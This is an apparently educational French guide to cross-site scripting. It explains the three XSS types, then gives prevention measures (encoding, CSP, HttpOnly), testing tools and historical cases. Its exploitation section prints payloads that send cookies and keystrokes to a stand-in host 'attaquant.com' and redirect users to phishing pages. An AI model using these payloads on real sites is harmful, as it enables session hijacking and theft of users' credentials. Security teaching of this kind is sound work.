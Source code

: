 ### **3. Failles XSS (Cross-Site Scripting)**  
#### **Définition** :  
Les failles XSS (Cross-Site Scripting) surviennent lorsque **une application web intègre des données non fiables (souvent fournies par l’utilisateur) dans une page sans validation ou encodage adéquat**. Cela permet à un attaquant d’exécuter du code malveillant (généralement du JavaScript) dans le navigateur de la victime, entraînant des conséquences graves comme le vol de cookies, la déviation de sessions, ou l’usurpation d’identité.

---

### **Types de failles XSS**  
#### **1. XSS réfléchi (Reflected XSS)**  
- **Principe** : Le code malveillant est injecté via une requête HTTP (ex. : URL, formulaire) et **exécuté immédiatement** dans le navigateur de la victime.  
- **Exemple** :  
  ```url
  https://victime.com/recherche?q=<script>alert('xss')</script>
  ```  
- **Cas réel** : Un lien trompeur envoyé par email ou réseau social. Lorsque la victime clique dessus, le script s’exécute et redirige vers un site malveillant.  

#### **2. XSS stocké (Stored XSS)**  
- **Principe** : Le code malveillant est **enregistré dans une base de données** (ex. : forum, commentaires) et exécuté chaque fois qu’un utilisateur consulte la page infectée.  
- **Exemple** :  
  ```html
  <img src=x onerror="voler_cookie()">
  ```  
  → Stocké dans un commentaire, ce script s’exécute pour tous les utilisateurs visitant la page.  
- **Cas réel** : Le **Samy Worm** (2005) a exploité une faille XSS persistante sur MySpace pour ajouter 1 million d’amis à son auteur en 24h.  

#### **3. XSS basé sur le DOM (DOM-based XSS)**  
- **Principe** : Le code malveillant est exécuté via une **vulnérabilité dans le code JavaScript côté client**, sans interaction avec le serveur.  
- **Exemple** :  
  ```javascript
  document.write(location.hash.substring(1)); // Vulnérable à DOM XSS
  ```  
  → Injection via une URL comme :  
  ```url
  http://victime.com/#<script>alert(1)</script>
  ```  

---

### **Exploitation pratique**  
#### **Techniques courantes** :  
1. **Vol de cookies** :  
   ```javascript
   <script>
     fetch('http://attaquant.com/steal', {
       method: 'POST',
       body: document.cookie
     });
   </script>
   ```  
   → Le cookie de session est envoyé au serveur de l’attaquant.  

2. **Keylogging** :  
   ```javascript
   document.addEventListener('keypress', function(e) {
     fetch('http://attaquant.com/log?key=' + e.key);
   });
   ```  
   → Capture des frappes clavier de la victime.  

3. **Redirection vers un site malveillant** :  
   ```javascript
   window.location.href = "http://phishing.com";
   ```  

4. **Déviation de panier d’achat** :  
   ```javascript
   document.getElementById('panier').innerHTML = 
     '<form action="http://attaquant.com/capture" method="POST">...';
   ```  
   → Modification du panier d’un site marchand pour rediriger les paiements.  

---

### **Conséquences des attaques XSS**  
1. **Vol de cookies de session** :  
   - Usurpation d’identité sans connaissance du mot de passe.  
2. **Vol d’identifiants de connexion** :  
   - Clonage de formulaires de login pour capturer les identifiants.  
3. **Accès à des données sensibles** :  
   - Exfiltration de données personnelles, numéros de carte bancaire, etc.  
4. **Déviation d’opérations** :  
   - Modification de transactions financières ou de commandes.  
5. **Défiguration de site** :  
   - Affichage de contenu malveillant ou messages offensants.  
6. **Propagation de malwares** :  
   - Téléchargement automatique de logiciels malveillants via des scripts.  

---

### **Prévention et bonnes pratiques**  
#### **1. Validation des entrées** :  
- **Stratégie "Whitelist"** : Accepter uniquement des données connues et valides (ex. : emails, numéros).  
- **Filtrage des caractères spéciaux** : Bloquer ou encoder les caractères dangereux (`<`, `>`, `"`, `'`, `(`, `)`).  
- **Exemple en PHP** :  
  ```php
  $email = filter_var($_POST['email'], FILTER_VALIDATE_EMAIL);
  ```  

#### **2. Encodage des sorties** :  
- **HTML** : Utiliser `htmlspecialchars()` en PHP ou `Encoder.encodeForHtml()` en Java.  
- **JavaScript** : Encoder les données avec `encodeURI()` ou `encodeURIComponent()`.  
- **URL** : Utiliser `rawurlencode()` en PHP ou `encodeURI()` en JavaScript.  

#### **3. En-têtes de sécurité** :  
- **Content-Security-Policy (CSP)** : Interdire l’exécution de scripts externes.  
  ```http
  Content-Security-Policy: script-src 'self';
  ```  
- **HttpOnly** : Protéger les cookies contre l’accès via JavaScript.  
  ```http
  Set-Cookie: sessionid=123; HttpOnly; Secure;
  ```  
- **X-Content-Type-Options: nosniff** : Empêcher le MIME sniffing.  

#### **4. Outils et bibliothèques** :  
- **OWASP AntiSamy** : Nettoyer les données HTML/JS avant stockage.  
- **Java** : Utiliser `ESAPI.encoder().encodeForHTML()`.  
- **PHP** : Bibliothèque `HTML Purifier` pour valider et nettoyer le HTML.  

#### **5. Tests de sécurité** :  
- **BurpSuite** : Interception et test de payloads malveillants.  
- **OWASP ZAP** : Analyse automatisée des vulnérabilités.  
- **Mutillidae** : Plateforme OWASP pour pratiquer des attaques XSS.  

---

### **Cas réels et exemples historiques**  
1. **Samy Worm (2005)** :  
   - Attaque XSS persistante sur MySpace pour propager un virus.  
2. **Vol de cookies via formulaires de recherche** :  
   - Injection de scripts dans des champs de recherche non sécurisés.  
3. **XSS via fichiers uploadés** :  
   - Upload de fichiers `.svg` contenant du code JavaScript.  

---

### **Don't try this home**
